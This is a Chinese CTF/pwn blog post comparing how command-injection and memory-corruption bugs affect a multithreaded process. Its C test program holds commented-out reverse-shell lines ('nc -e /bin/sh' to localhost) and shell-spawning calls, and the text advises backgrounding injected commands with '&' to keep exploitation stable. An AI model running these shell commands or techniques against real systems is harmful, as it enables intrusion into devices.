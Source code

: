 ```yaml
---
title: Getshell稳定：命令注入 > 内存破坏
date: 2020-12-13 00:00:00
categories:
- CTF/Pwn
tags: 
---
```


> 不要瞧不起命令注入，因为你不得不承认，命令注入型漏洞就是要比内存破坏型漏洞要稳。在实际的攻击中，我们发现的漏洞代码的运行实体可能是单蹦儿的一个进程，也可能是某个进程的一个线程。如果攻击发生在某个线程中，对其他线程，以及线程所属的进程会不有影响呢？在这种情况下，内存破坏漏洞的表现怎么样呢？

使用如下测试代码，每次可以打开其中一个注释：

```
➜  gcc test.c -lpthread -o test && ./test
```

```c
#include <stdio.h>
#include <pthread.h>
#include <unistd.h>
#include <stdlib.h>

void *thread1(void *arg){
//    system("/bin/sh");
//    system("/bin/sh &");
//    system("nc -e /bin/sh 127.0.0.1 8888");
//    system("nc -e /bin/sh 127.0.0.1 8888 &")
    while(1){
        printf("thread1         is running\n");
        sleep(1);
    }
}

void *thread2(void *arg){
//    execve("/bin/sh",NULL,NULL);
    while(1){
        printf("thread2         is running\n");
        sleep(1);
    }
}

int main(){
    getchar();
    pthread_t thid1,thid2;
    pthread_create(&thid1,NULL,(void*)thread1,NULL);
    pthread_create(&thid2,NULL,(void*)thread2,NULL);
//    int a = *(int *)0;
    while(1){
        printf("main thread     is running\n");
        sleep(1);
    }
    return 0;
}
```


1. 内存破坏漏洞无论发生在哪个线程中，如果触发SIGSEGV，整个进程就会崩溃，并且一般程序不会注册SIGSEGV的信号处理函数
2. system函数命令注入，可能会使得被攻击的线程卡住，其他线程正常运行，因为system函数会等待其执行命令的返回。

在实际攻击中，我们发现用命令注入的漏洞攻击某设备的某个进程，无论我的exp是否有失误，设备不用重启，漏洞进程不会被打崩溃，也不会卡死。（这事在Web手看起来不是理所当然的么！）

至于原因当然和Web手攻击的情景是一样的，就像apache，会为连进来的请求建立新的进程。或者像CTF中Pwn题的部署方式，即socat和xinetd。分析发现，我们的每次攻击都是在目标进程新启动的线程中触发的，所以大不了就是这个线程卡死，再次攻击又是一个新的线程。并且开发在写线程的时候，为的就是卡死没事，这种情景在网络数据处理的时候会很常见。所以为了避免system函数卡死，拼接进去的命令注入可以让其在后台运行(&)，这样system函数即可马上返回，也不影响被攻击的线程。

但是如果漏洞类型是内存破坏漏洞，即使他出现在某个线程里，只要你稍不留神，触发了SIGSEGV，整个进程就完蛋了。如果该进程没有守护进程让他再次等待被你攻击，那也就只有重启设备了。